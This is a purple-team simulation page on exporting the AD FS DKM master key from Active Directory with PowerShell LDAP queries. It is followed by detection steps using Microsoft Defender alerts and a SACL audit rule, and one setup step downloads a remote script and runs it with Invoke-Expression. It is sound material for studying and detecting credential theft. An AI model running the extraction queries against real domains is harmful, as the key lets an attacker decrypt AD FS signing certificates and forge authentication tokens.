









Export AD FS DKM Master Key via LDAP Queries
Contents
Export AD FS DKM Master Key via LDAP Queries¶
The path of the AD FS DKM container in the domain controller might vary, but it can be obtained from the AD FS configuration settings. After getting the AD path to the container, a threat actor can directly access the AD contact object and read the AD FS DKM master key value. One way to access and retrieve the DKM master key can be via LDAP queries.
Table of Contents¶
Preconditions¶
Integrity level: medium
Authorization:
Resource: AD FS Database
Identity:
AD FS Service Account
Local Administrator
Resource: AD FS DKM Container
Identity:
AD FS Service Account
AD Domain Administrator
Domain Controller:
Services:
Lightweight Directory Access Protocol (LDAP)
Network:
Port: 389
Input:
AD FS Configuration Settings
Simulation Steps¶
Get Path of AD FS DKM container¶
The AD FS DKM key value is stored in the ThumbnailPhoto attribute of an AD contact object in the AD FS DKM container. Therefore, we first need to get the path of the AD FS DKM container in the AD domain controller. That information can be retrieved from the AD FS configuration settings.
[xml]$xml=$settings
$group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
$base

Query LDAP¶
We can use LDAP and create a query filtering on specific objects with the ThumbnailPhoto attribute. We can then read the encryption key from the ThumbnailPhoto attribute.
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter='(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADUser=$ADSearch.FindOne()
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)

One could also filter on the CryptoPolicy contact object inside of the AD FS DKM container and get the value of its DisplayName attribute. This attribute refers to the l attribute of the right AD contact object that contains the DKM master key value. The DKM key is stored in its ThumbnailPhoto attribute.
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"]
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne()
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)

Detection¶
Detect LDAP Query with ThumbnailPhoto Property in Filter¶
Microsoft Defender for Identity Alerts¶
Active Directory attributes Reconnaissance using LDAP
When a threat actor sets the property ThumbnailPhoto as a filter in the LDAP search query, the MDI sensor in the domain controller triggers an alert of type Active Directory attributes Reconnaissance using LDAP.
Navigate to Microsoft 365 Security Center.
Go to
More Resourcesand click on Azure Advanced Threat Protection.

Microsoft Cloud App Security Alerts¶
Active Directory attributes Reconnaissance using LDAP
You can also see the same alert in the Microsoft Cloud Application Security (MCAS) portal. The MCAS portal is considered the new investigation experience for MDI.
Navigate to Microsoft 365 Security Center
Go to “More Resources” and click on “Microsoft Cloud App Security”.

Microsoft Defender for Endpoint Alerts¶
ADFS private key extraction attempt
Microsoft Defender for Endpoint sensors also trigger an alert named ADFS private key extraction attempt when a threat actor sets the property ThumbnailPhoto as a filter in the LDAP search query.
Navigate to Microsoft 365 Security Center.
Go to
More Resourcesand click on Microsoft Defender Security Center.Go to
Incidents.

Detect LDAP Query with Indirect Access to ThumbnailPhoto Property¶
Microsoft Defender for Endpoint Alerts¶
ADFS private key extraction attempt
Microsoft Defender for Endpoint sensors also trigger an alert named ADFS private key extraction attempt when a threat actor accesses the contact AD object holding the DKM key, but without specifying the ThumbnailPhoto attribute as part of the filter in the LDAP search query.

Detect Access to AD Object¶
Azure Sentinel Detection Rules¶
AD FS DKM Master Key Export
We can also audit the access request to the AD FS DKM contact object in the domain controller. This audit rule can be enabled by adding an Access Control Entry (ACE) to the System Access Control List (SACL) of the AD FS DKM contact object in the domain controller. A SACL is a type of access control list to log attempts to access a secured object.
Create Audit Rule
Connect to the Domain Controller (DC01) via the Azure Bastion service as an Administrator.
Open PowerShell console as an Administrator.
Get the path of the AD FS DKM container and use it to obtain the
GUIDof the AD FS DKM contact object holding the AD FS DKM master key (Encryption key).
$AdfsDKMPath = "LDAP://CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com"
$ADSISearcher = [ADSISearcher]'(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADSISearcher.SearchRoot = [ADSI]"$AdfsDKMPath"
$results = $ADSISearcher.FindOne()
$results.Path

Import Active Directory Module:
Import-Module ActiveDirectory
Import the project Set-AuditRule in GitHub as a PowerShell module to automate the process.
$uri = 'https://raw.githubusercontent.com/OTRF/Set-AuditRule/master/Set-AuditRule.ps1'
$RemoteFunction = Invoke-WebRequest $uri –UseBasicParsing
Invoke-Expression $($RemoteFunction.Content)
Create an
Auditrule to audit anyGeneric Readrequests to that AD object.
$ADObjectPath = 'CN=8e8a005d-e8eb-4d71-8bfc-de5abf98d5b4,CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com'
Set-AuditRule -AdObjectPath "AD:\$ADObjectPath" -WellKnownSidType WorldSid -Rights GenericRead -InheritanceFlags None -AuditFlags Success -verbose

Once the audit rule is enabled, run any of the previous LDAP search queries from the previous section to trigger the audit rule. You can run the queries from the ADFS01 server. You will see Windows Security Event ID 4662 in the Domain Controller:

Something to remember is that the XML representation of the security event provides the GUID of the AD FS DKM contact object and not the explicit path to the AD object. In our lab environment this Object Name value was 9736f74f-fd37-4b02-80e8-8120a72ad6c2.

Use the following detection rule to explore this activity:
Output¶
AD FS DKM Master Key